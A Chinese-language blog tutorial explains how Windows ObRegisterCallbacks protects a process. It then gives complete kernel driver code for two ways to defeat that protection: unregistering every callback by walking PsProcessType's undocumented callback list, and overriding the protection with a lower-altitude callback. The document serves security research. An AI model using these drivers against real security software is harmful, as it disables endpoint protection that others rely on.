

## ObRegisterCallbacks的装载和卸载

Time: 2023.04.19
Tags: 开发,逆向分析,代码分析  


### 0x00 前言

随着 windows 系统安全不断加强升级，在 windows7 x64 下推出了驱动程序强制签名和 PatchGuard 机制，使得通过 hook 技术实现进程保护的方法不再那么好用了，同时 windows 也推出了 ObRegisterCallbacks 回调函数以便于开发者实现进程保护，这是目前安全软件使用得最广泛的进程保护实现方法。

关于 ObRegisterCallbacks 实现进程保护已经有前辈提供了大量的文章和示例了，本文这里仅做简单的介绍，其本质就是在 `NtOpenProcess` 调用过程中，执行用户设置的回调函数，从而自定义的控制过滤进程权限；本文着重讨论如何卸载 ObRegisterCallbacks 回调函数，从而帮助我们进行日常的安全测试和研究。

本文试验环境：
```
windows 10 专业版 x64 1909 (Testing Mode)
Visual Studio 2019
SDK 10.0.19041.685
WDK 10.0.19041.685
```

### 0x01 回调实现进程保护
我们编写对进程名为 `cmd.exe` 进行进程保护的 ObRegisterCallbacks 代码如下：
```
#include <ntddk.h>
#include <wdf.h>

#define PROCESS_TERMINATE 0x0001

DRIVER_INITIALIZE DriverEntry;

NTKERNELAPI UCHAR* PsGetProcessImageFileName(__in PEPROCESS Process);

PVOID RegistrationHandle = NULL;

OB_PREOP_CALLBACK_STATUS PreOperationCallback(_In_ PVOID RegistrationContext, _In_ POB_PRE_OPERATION_INFORMATION OperationInformation) {
    UNREFERENCED_PARAMETER(RegistrationContext);

    // filter by process name "cmd.exe"
    PUCHAR name = PsGetProcessImageFileName((PEPROCESS)OperationInformation->Object);
    if (strcmp((const char*)name, "cmd.exe") != 0) {
        return OB_PREOP_SUCCESS;
    }

    // filter operation "OB_OPERATION_HANDLE_CREATE", and remove "PROCESS_TERMINAL"
    if (OperationInformation->Operation == OB_OPERATION_HANDLE_CREATE) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "ProcessProtect: callback remove [%s] PROCESS_TERMINAL\n", name));
        OperationInformation->Parameters->CreateHandleInformation.DesiredAccess &= ~PROCESS_TERMINATE;
    }

    return OB_PREOP_SUCCESS;
}

VOID OnUnload(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    // unregister callbacks
    if (RegistrationHandle != NULL) {
        ObUnRegisterCallbacks(RegistrationHandle);
        RegistrationHandle = NULL;
    }

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "ProcessProtect: unload driver\n"));
}

NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath) {
    OB_OPERATION_REGISTRATION OperationRegistrations = { 0 };
    OB_CALLBACK_REGISTRATION  ObRegistration = { 0 };
    UNICODE_STRING Altitude = { 0 };
    NTSTATUS Status = STATUS_SUCCESS;

    UNREFERENCED_PARAMETER(DriverObject);
    UNREFERENCED_PARAMETER(RegistryPath);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "ProcessProtect: driver entry\n"));

    // register unload function
    DriverObject->DriverUnload = OnUnload;

    // setup the ObRegistration calls
    OperationRegistrations.ObjectType   = PsProcessType;
    OperationRegistrations.Operations   = OB_OPERATION_HANDLE_CREATE;
    OperationRegistrations.PreOperation = PreOperationCallback;

    RtlInitUnicodeString(&Altitude, L"1000");
    ObRegistration.Version                    = OB_FLT_REGISTRATION_VERSION;
    ObRegistration.OperationRegistrationCount = 1;
    ObRegistration.Altitude                   = Altitude;
    ObRegistration.RegistrationContext        = NULL;
    ObRegistration.OperationRegistration      = &OperationRegistrations;

    Status = ObRegisterCallbacks(&ObRegistration, &RegistrationHandle);
    if (!NT_SUCCESS(Status)) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "ProcessProtect: ObRegisterCallbcks failed status 0x%x\n", Status));
        return Status;
    }

    return STATUS_SUCCESS;
}
```

由于 windows 对 `ObRegisterCallbacks` 的调用强制要求数字签名，我们需要在项目链接器中添加 `/INTEGRITYCHECK` 参数(否则调用 `ObRegisterCallbacks` 时将返回 0xC0000022 错误)，如下：
<div align="center">

</br>[1.vs链接器添加/INTEGRITYCHECK选项]
</div>

随后编译以上驱动程序代码，然后使用服务(`service`)的方式加载驱动程序：
```
# 为驱动程序创建服务
sc.exe create ProcessProtect type= kernel start= demand binPath= C:\Users\john\Desktop\workspace\ProcessProtect\x64\Debug\ProcessProtect.sys
# 查看服务信息
sc.exe queryex ProcessProtect
# 启动服务/驱动程序
sc.exe start ProcessProtect
```

启动如下：
<div align="center">

</br>[2.为驱动创建服务(serivce)]
</div>


随后使用任务管理器关闭 `cmd.exe`，测试如下：
<div align="center">

</br>[3.无法关闭cmd.exe进程]
</div>

### 0x02 卸载回调
安全软件和恶意软件都可以使用如上实现对自己进行保护，如果要对此类软件进行安全分析，那么绕过 ObRegisterCallbacks 实现的进程保护就是我们首先要解决的问题；不过我们通过上文了解了 ObRegisterCallbacks 的加载过程，最容易想到的则是使用系统函数 `ObUnRegisterCallbacks` 尝试对回调函数进行卸载。

首先我们分析下 `ObRegisterCallbacks` 的实现细节，该函数位于 `ntoskrnl.exe`，其函数定义为：
```
NTSTATUS ObRegisterCallbacks(
  [in]  POB_CALLBACK_REGISTRATION CallbackRegistration,
  [out] PVOID                     *RegistrationHandle
);
```

回调函数的注册实现如下：
<div align="center">

</br>[4.逆向分析ObRegisterCallbacks]
</div>

在 `ObRegisterCallbacks` 中首先进行了一些参数检查，如 `MmVerifyCallbackFunctionCheckFlags` 就是上文提到的强制数字签名的检查，随后将参数 `CallbackRegistration` 重新赋值并通过 `ObpInsertCallbackByAltitude` 将回调函数插入到内核对象中。

其中 `v17` 就是我们传入的 `PsProcessType` 或 `PsThreadType` 内核对象，符号表提供的数据结构如下：
```
typedef struct _OBJECT_TYPE {
    LIST_ENTRY TypeList;
    UNICODE_STRING Name;
    void* DefaultObject;
    unsigned __int8 Index;
    unsigned int TotalNumberOfObjects;
    unsigned int TotalNumberOfHandles;
    unsigned int HighWaterNumberOfObjects;
    unsigned int HighWaterNumberOfHandles;
    _OBJECT_TYPE_INITIALIZER TypeInfo; // unsigned __int8 Placeholder[0x78];
    EX_PUSH_LOCK TypeLock;
    unsigned int Key;
    LIST_ENTRY CallbackList;
}OBJECT_TYPE;
```

同时通过逆向分析可以推出回调对象 `CALLBACK_ENTRY` 内存大小为 `CallbackRegistration->OperationRegistrationCount * 64 + 32 + CallbackRegistration->Altitude.Length`，其数据结构如下：
```
typedef struct _CALLBACK_ENTRY_ITEM {
    LIST_ENTRY EntryItemList;
    OB_OPERATION Operations;
    CALLBACK_ENTRY* CallbackEntry;
    POBJECT_TYPE ObjectType;
    POB_PRE_OPERATION_CALLBACK PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
    __int64 unk;
}CALLBACK_ENTRY_ITEM;

typedef struct _CALLBACK_ENTRY {
    __int16 Version;
    char buffer1[6];
    POB_OPERATION_REGISTRATION RegistrationContext;
    __int16 AltitudeLength1;
    __int16 AltitudeLength2;
    char buffer2[4];
    WCHAR* AltitudeString;
    CALLBACK_ENTRY_ITEM Items;
}CALLBACK_ENTRY;
```

也就是说每一个回调对象将分配一个 `CALLBACK_ENTRY`，其中每一项回调操作将分配一个 `CALLBACK_ENTRY_ITEM`，`Altitude` 字符串拼接在该对象末尾；除此之外，回调对象创建成功后，会将 `CALLBACK_ENTRY` 赋值给 `RegistrationHandle`，用于 `ObUnRegisterCallbacks` 释放对象。

其 `v16` 参数则表示一个 `CALLBACK_ENTRY_ITEM`，其传入 `ObpInsertCallbackByAltitude` 函数，该函数根据 `Altitude` 的值排序并将回调函数插入到 `OBJECT_TYPE->CallbackList` 这个双向循环链表中，如下：
<div align="center">

</br>[5.逆向分析ObpInsertCallbackByAltitude]
</div>

熟悉了 `ObRegisterCallbacks` 的实现细节，按照如上注册流程，那么我们就可以通过 `PsProcessType->CallbackList` 获取到 `CALLBACK_ENTRY_ITEM` 这个双向循环链表，遍历该链表，再从其中每项 `CALLBACK_ENTRY_ITEM->CallbackEntry` 获取到 `CALLBACK_ENTRY` 对象，最后使用 `ObUnRegisterCallbacks` 释放该对象，就实现了对回调函数的卸载，编写代码如下：
```
#include <ntddk.h>
#include <wdf.h>

DRIVER_INITIALIZE DriverEntry;

typedef struct _OBJECT_TYPE {
    LIST_ENTRY TypeList;
    UNICODE_STRING Name;
    void* DefaultObject;
    unsigned __int8 Index;
    unsigned int TotalNumberOfObjects;
    unsigned int TotalNumberOfHandles;
    unsigned int HighWaterNumberOfObjects;
    unsigned int HighWaterNumberOfHandles;
    //_OBJECT_TYPE_INITIALIZER TypeInfo;
    unsigned __int8 Placeholder[0x78];
    EX_PUSH_LOCK TypeLock;
    unsigned int Key;
    LIST_ENTRY CallbackList;
}OBJECT_TYPE;

typedef struct _CALLBACK_ENTRY CALLBACK_ENTRY;
typedef struct _CALLBACK_ENTRY_ITEM CALLBACK_ENTRY_ITEM;

struct _CALLBACK_ENTRY_ITEM {
    LIST_ENTRY EntryItemList;
    OB_OPERATION Operations;
    CALLBACK_ENTRY* CallbackEntry;
    POBJECT_TYPE ObjectType;
    POB_PRE_OPERATION_CALLBACK PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
    __int64 unk;
};

struct _CALLBACK_ENTRY {
    __int16 Version;
    char buffer1[6];
    POB_OPERATION_REGISTRATION RegistrationContext;
    __int16 AltitudeLength1;
    __int16 AltitudeLength2;
    char buffer2[4];
    WCHAR* AltitudeString;
    CALLBACK_ENTRY_ITEM Items;
};


VOID OnUnload(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "UnloadObCB: unload driver\n"));
}

NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath) {
    UNREFERENCED_PARAMETER(DriverObject);
    UNREFERENCED_PARAMETER(RegistryPath);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "UnloadObCB: driver entry\n"));

    // register unload function
    DriverObject->DriverUnload = OnUnload;

    // get "PsProcessType" kernel handle
    OBJECT_TYPE* pspt = *(POBJECT_TYPE*)PsProcessType;
    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "UnloadObCB: pspt = %p\n", pspt));

    // traverse callback list
    PLIST_ENTRY head = (PLIST_ENTRY)&(pspt->CallbackList);
    PLIST_ENTRY current = head->Blink;
    // actually, we skipped the head node, accessing this node will cause a memory access error, maybe the head does not store real data. (head->Operation = 0x4b424742, this should be a boundary tag)
    while (current != head) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "UnloadObCB: c=0x%llx, c->Flink=0x%llx, c->Blink=0x%llx\n", current, current->Flink, current->Blink));
        CALLBACK_ENTRY_ITEM* item = (CALLBACK_ENTRY_ITEM*)current;
        CALLBACK_ENTRY* entry = item->CallbackEntry;
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "UnloadObCB: unregister Entry=%p, Altitude = %ls\n", entry, entry->AltitudeString));
        ObUnRegisterCallbacks(entry);

        current = current->Blink;
    }

    return STATUS_SUCCESS;
}
```

编译代码后也为该驱动程序创建服务 `UnloadObCB`，首先使用上文的 `ProcessProtect` 对 `cmd.exe` 进行进程保护，随后再使用 `UnloadObCB` 卸载回调，在任务管理器中发现可以正常关闭 `cmd.exe` 进程，执行如下：
<div align="center">

</br>[6.卸载回调函数]
</div>

其中 `Altitude = 1000` 的回调就是我们 `ProcessProtect` 所添加的回调函数对象。

但是这种方式并不通用和稳定，首先是其结构体可能因操作系统版本的变化而变化，其次当原驱动退出时会调用 `ObUnRegisterCallbacks` 卸载自己的回调函数，但由于已经被我们卸载了，这里就会触发蓝屏。

### 0x03 覆盖回调操作
我们再尝试去寻找一些更稳定的绕过 ObRegisterCallbacks 的方法，细心同学已经发现当我们注册回调时需要添加 `Altitude`(https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/load-order-groups-and-altitudes-for-minifilter-drivers)，该值为十进制的字符串，表示驱动程序的加载顺序，在 ObRegisterCallbacks 中表示回调函数的执行顺序：

<div align="center">

</br>[7.回调函数执行顺序和Altitude]
</div>

`Pre-` 回调函数链按 `Altitude` 从高到低的顺序调用，再执行实际的函数调用，然后是 `Post-` 回调函数链，按 `Altitude` 从低到高的顺序调用；

根据回调函数的调用顺序，那么我们可以考虑在 `Post-` 回调函数链的末尾设置恢复进程句柄权限的函数，即可覆盖之前的回调函数的操作；但由于 `Post-` 链上的 `GrantedAccess` 可读不可写，所以我们在 `Pre-` 回调函数链的末尾(这里我们设置为 `Altitude=999`)进行操作，编写代码如下：

```
#include <ntddk.h>
#include <wdf.h>

DRIVER_INITIALIZE DriverEntry;

NTKERNELAPI UCHAR* PsGetProcessImageFileName(__in PEPROCESS Process);

PVOID RegistrationHandle = NULL;

OB_PREOP_CALLBACK_STATUS PreOperationCallback(_In_ PVOID RegistrationContext, _In_ POB_PRE_OPERATION_INFORMATION OperationInformation) {
    UNREFERENCED_PARAMETER(RegistrationContext);

    // filter by process name "cmd.exe"
    PUCHAR name = PsGetProcessImageFileName((PEPROCESS)OperationInformation->Object);
    if (strcmp((const char*)name, "cmd.exe") != 0) {
        return OB_PREOP_SUCCESS;
    }

    if (OperationInformation->Operation == OB_OPERATION_HANDLE_CREATE) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "RecoverObCB: recover DesiredAccess=0x%x to OriginalDesiredAccess=0x%x\n",
            OperationInformation->Parameters->CreateHandleInformation.DesiredAccess,
            OperationInformation->Parameters->CreateHandleInformation.OriginalDesiredAccess
        ));
        OperationInformation->Parameters->CreateHandleInformation.DesiredAccess = OperationInformation->Parameters->CreateHandleInformation.OriginalDesiredAccess;
    }

    return OB_PREOP_SUCCESS;
}

VOID OnUnload(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    // unregister callbacks
    if (RegistrationHandle != NULL) {
        ObUnRegisterCallbacks(RegistrationHandle);
        RegistrationHandle = NULL;
    }

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "RecoverObCB: unload driver\n"));
}

NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath) {
    OB_OPERATION_REGISTRATION OperationRegistrations = { 0 };
    OB_CALLBACK_REGISTRATION  ObRegistration = { 0 };
    UNICODE_STRING Altitude = { 0 };
    NTSTATUS Status = STATUS_SUCCESS;

    UNREFERENCED_PARAMETER(DriverObject);
    UNREFERENCED_PARAMETER(RegistryPath);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "RecoverObCB: driver entry\n"));

    // register unload function
    DriverObject->DriverUnload = OnUnload;

    // setup the ObRegistration calls
    OperationRegistrations.ObjectType = PsProcessType;
    OperationRegistrations.Operations = OB_OPERATION_HANDLE_CREATE;
    OperationRegistrations.PreOperation = PreOperationCallback;

    RtlInitUnicodeString(&Altitude, L"999");
    ObRegistration.Version = OB_FLT_REGISTRATION_VERSION;
    ObRegistration.OperationRegistrationCount = 1;
    ObRegistration.Altitude = Altitude;
    ObRegistration.RegistrationContext = NULL;
    ObRegistration.OperationRegistration = &OperationRegistrations;

    Status = ObRegisterCallbacks(&ObRegistration, &RegistrationHandle);
    if (!NT_SUCCESS(Status)) {
        KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL, "RecoverObCB: ObRegisterCallbcks failed status 0x%x\n", Status));
        return Status;
    }

    return STATUS_SUCCESS;
}
```

编译代码后也为该驱动程序创建服务 `RecoverObCB`，首先使用上文的 `ProcessProtect` 对 `cmd.exe` 进行进程保护，随后再使用 `RecoverObCB` 覆盖回调操作，在任务管理器中发现可以正常关闭 `cmd.exe` 进程，执行如下：
<div align="center">

</br>[8.覆盖回调操作]
</div>

上图中当使用任务管理器关闭 `cmd.exe` 进程时，`RecoverObCB` 使用进程申请权限 `OriginalDesiredAccess=0x1001` 覆盖实际给予的权限 `DesiredAccess=0x1000`，从而覆盖掉 `ProcessProtect` 的操作，实现了对进程保护的绕过。

### 0x04 References
https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obregistercallbacks?redirectedfrom=MSDN  
https://github.com/microsoft/Windows-driver-samples/tree/main/general/obcallback/driver  
https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/load-order-groups-and-altitudes-for-minifilter-drivers  
https://douggemhax.wordpress.com/2015/05/27/obregistercallbacks-and-countermeasures/  
https://github.com/whitephone/Windows-Rootkits/blob/master/ProtectProcessx64/ProtectProcessx64.c  
https://bbs.kanxue.com/thread-140891.htm  
https://stackoverflow.com/questions/68423609/kernel-driver-failed-to-register-callbacks-status-c0000022  
https://www.unknowncheats.me/forum/general-programming-and-reversing/258832-kernelmode-driver-callbacks.html  
https://blog.xpnsec.com/anti-debug-openprocess/  
https://bbs.kanxue.com/thread-248703.htm  